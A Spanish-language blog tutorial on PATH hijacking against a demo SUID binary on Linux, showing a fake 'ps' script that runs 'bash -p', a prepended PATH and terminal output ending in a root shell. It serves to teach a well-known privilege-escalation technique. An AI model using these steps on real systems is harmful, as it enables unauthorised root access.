 ```yaml
---
date: 2021-09-07T20:22:05.000Z
layout: post
comments: true
title: PATH Hijacking
subtitle: 'y su explotación en un binario SIUD'
description: >-
image: >-
  http://imgfz.com/i/xyCN3gM.png
optimized_image: >-
 http://imgfz.com/i/xyCN3gM.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Con el comando ```strings``` se nos permite listar las cadenas de carácteres imprimibles de un binario. ```strings demo``` nos podría mostrar el comando aplicado a nivel de sistema osea podría ser ```/usr/bin/ps```, detectado en ```demo.c```. Esto es PATH hijacking, que es el secuestro del PATH para alterar el flujo de como operan los comandos por el orden de prioridad. Ejemplo:

```bash
user$ touch ps
user$ chmod +x ps [Esto permitirá la ejecución]
user$ nano ps
```

Le asignamos que nos ejecute una bash, con la flag ```-p``` para que direccione directamente al propietario y me pueda convertir en root.
```bash
bash -p
```

Ahora alteramos nuestro propio PATH a través del comando ```export```:

```bash
user$ echo $PATH
/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ export PATH=/tmp:$PATH
user$ echo $PATH
/tmp:/home/user/.local/bin:/snap/bin:/user/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

user$ ls
ps
user$ cd /home/user/Desktop/
user$ ls
demo  demo.c
user$ pwd
/home/user/Desktop/
user$ ./demo

[*] Listando procesos (/usr/bin/ps):

    PID TTY          TIME CMD
   29098 pts/0    00:00:01 sudo
   29099 pts/0    00:00:00 su
   29100 pts/0    00:00:00 gitstatusd-linu
   29103 pts/0    00:00:00 demo
   29137 pts/0    00:00:00 sh
   31299 pts/0    00:00:00 ps


[*] Listando procesos (ps):

admin@kali:/home/root/Desktop# whoami
root
```

Y así es como se obtiene acceso a través de PATH Hijacking.
